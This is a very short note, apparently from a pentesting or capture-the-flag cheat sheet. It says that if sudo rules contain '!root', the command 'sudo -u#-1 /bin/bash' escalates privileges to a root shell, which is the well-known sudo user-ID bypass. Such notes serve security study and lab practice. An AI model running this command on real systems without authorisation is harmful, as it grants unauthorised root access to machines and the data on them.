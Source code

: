 ![](/images/sudo%20no%20root.png)


if we see !root in the sudo permissions then use 


` sudo -u#-1  /bin/bash`
to escalate our privs
